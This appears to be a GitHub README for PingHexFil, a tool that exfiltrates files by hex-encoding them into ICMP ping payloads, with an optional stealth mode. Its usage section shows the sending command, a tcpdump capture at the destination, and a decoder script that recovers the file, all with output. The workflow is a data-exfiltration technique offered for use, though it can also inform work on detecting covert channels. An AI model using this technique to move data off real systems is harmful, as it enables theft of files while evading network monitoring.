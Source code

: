 # PingHexFil
Exfiltration of small files using ICMP
## Data Exfiltration using ICMP
Pass a file name, destination IP address, and "--stealth" (optional), to the application. The application will chunk the file into 60K sizes and send each "chunk" as the data payload of the ICMP request to the destination IP address. Ensure that you are capturing ICMP packets at the destination before sending. You can do this using Wireshark.
## Usage
The following is done with the example file, `examples/example1.txt`
### Step 1: Send the Bytes via ICMP
```
root@demon:~/pinghexfil# ls
decoder.py  examples  images  payloads  pinghexfil.py  README.md
root@demon:~/pinghexfil# cat examples/example1.txt 
This is a test file.
OK.
root@demon:~/pinghexfil# ./pinghexfil.py 127.0.0.1 examples/example1.txt 
[+] Opening file: examples/example1.txt
[+] Sending data as: 54686973206973206120746573742066696c652e0a4f4b2e0a
.
Sent 1 packets.
Exiting.
root@demon:~/pinghexfil# 
```
### Step 2: Listen for ICMP Requests on Destination
To do this we can simply use tcpdump:
```
root@demon:~/# tcpdump -vvi lo icmp[icmptype]==8 -w fileexfil.pcap
tcpdump: listening on lo, link-type EN10MB (Ethernet), capture size 262144 bytes
^C2 packets captured
4 packets received by filter
0 packets dropped by kernel
root@demon:~/# 
```
Then view with *Wireshark*:
```
root@demon:/# wireshark fileexfil.pcap
```
### Step 3: Decode the Bytes
```
root@demon:~/pinghexfil# ./decoder.py payloads/example1.txt 
[+] Opening file: payloads/example1.txt
[+] file data: 54686973206973206120746573742066696c652e0a4f4b2e0a

This is a test file.
OK.

root@demon:~/pinghexfil# 
```
